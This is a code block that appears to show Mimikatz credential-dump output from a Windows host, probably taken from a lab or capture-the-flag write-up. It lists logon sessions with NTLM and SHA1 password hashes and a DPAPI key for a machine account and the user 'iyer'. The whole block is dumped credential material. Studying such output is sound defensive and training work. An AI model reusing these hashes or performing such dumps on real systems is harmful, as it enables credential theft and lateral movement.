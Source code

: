 ```
User Name         : RDWebAccess
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 1/19/2021 8:42:36 PM
SID               : S-1-5-82-604604840-3341247844-1790606609-4006251754-2470522317
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
         [00000000]
         * Username : VDI-SERVER$
         * Domain   : (null)
         * Password : (null)
        credman :

Authentication Id : 0 ; 3264007 (00000000:0031ce07)
Session           : RemoteInteractive from 3
User Name         : iyer
Domain            : NUCLEAR
Logon Server      : NUCLEAR-DC
Logon Time        : 1/19/2021 9:48:20 PM
SID               : S-1-5-21-2753455963-2528838614-3718188604-1105
        msv :
         [00000003] Primary
         * Username : iyer
         * Domain   : NUCLEAR
         * NTLM     : 1ed88c67da13a44c5d81879baf879d74
         * SHA1     : b493e08d2567cdbb0b1d73b63d5d8e6cdd685361
         * DPAPI    : d531e51d448139e9595aa58a7b5445d4
        tspkg :
        wdigest :
         * Username : iyer
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : iyer
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 3226382 (00000000:00313b0e)
Session           : RemoteInteractive from 2
User Name         : iyer
Domain            : NUCLEAR
Logon Server      : NUCLEAR-DC
Logon Time        : 1/19/2021 9:46:54 PM
SID               : S-1-5-21-2753455963-2528838614-3718188604-1105
        msv :
        tspkg :
        wdigest :
```